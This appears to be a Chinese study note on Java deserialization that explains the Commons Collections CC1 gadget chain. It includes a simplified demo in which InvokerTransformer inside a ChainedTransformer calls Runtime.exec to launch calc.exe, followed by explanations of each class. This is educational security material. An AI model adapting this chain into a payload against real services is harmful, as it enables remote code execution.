 ```yaml
---
created: '21/11/06'
title: 反序列化篇3
tags:
  - java
  - java安全
---
```

# 反序列化篇3
## CC1
这篇文章主要是讲解了CC1链的本质，让读者能够更容易地明白。
这里P牛的pdf已经写的很好了，就稍微总结一下。

这个是P牛简化过的代码，执行后将会弹计算器(需要稍微修改下代码，如package，/System/Applications/Calculator.app/Contents/MacOS/Calculator):
```java
package com.govuln.deserialization;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class CommonsCollectionsIntro {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.getRuntime()),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
        };

        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        outerMap.put("test", "xxxx");
    }
}
```

这里需要学习的就是几个新的类。

### 理解类
#### TransformedMap
> TransformedMap⽤于对Java标准数据结构Map做⼀个修饰，被修饰过的Map在添加新的元素时，将执⾏⼀个回调。我们通过下面这行代码对innerMap进⾏修饰，传出的outerMap即是修饰后的Map
```java
Map outerMap = TransformedMap.decorate(innerMap, keyTransformer, valueTransformer);
```

#### Transformer
Transformer是⼀个接口，它只有⼀个待实现的方法`transform`，TransformedMap在转换新元素时，就会调用Transformer中的transform方法。

#### ConstantTransformer
ConstantTransformer是实现了Transformer接⼝的⼀个类，其构造函数是接收一个对象并存储，在transform时将该对象返回
```java
public ConstantTransformer(Object constantToReturn) { super(); iConstant = constantToReturn;
}
public Object transform(Object input) { return iConstant;
}
```

#### InvokerTransformer
> InvokerTransformer是实现了Transformer接口的⼀个类，这个类可以用来执行任意方法，这也是反序列化能执行任意代码的关键。

构造方法如下:
```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
    super();
    iMethodName = methodName;
    iParamTypes = paramTypes;
    iArgs = args;
}
```
transform方法如下，执行了input对象的iMethodName方法:
```java
public Object transform(Object input) {
if (input == null) {
    return null;
} try {
    Class cls = input.getClass();
    Method method = cls.getMethod(iMethodName, iParamTypes); 
    return method.invoke(input, iArgs);
} catch (NoSuchMethodException ex) {
    // ...
}
```

#### ChainedTransformer
> ChainedTransformer也是实现了Transformer接⼝的⼀个类，它的作⽤是将内部的多个Transformer串 在⼀起。通俗来说就是，前⼀个回调返回的结果，作为后⼀个回调的参数传⼊，我们画⼀个图做示意：
![](https://gitee.com/guuest/images/raw/master/img/20211106110501.png)

### 理解Demo
当我们理解上面几个类的作用之后，Demo的代码就非常容易理解了，其实际上分为以下几个步骤:
1. 创建了一个链式的Transformer(`ChainedTransformer`)，其中包含了两个Transformer(`ConstantTransformer`和`InvokerTransformer`)，目的是为了执行`Runtime.exec`方法
2. 创建HashMap实例，并用`TransformedMap.decorate`来包装HashMap，当发生value转换的时候回调`ChainedTransformer`
3. 使用`HashMap.out`方法往Map中放入新元素，触发回调
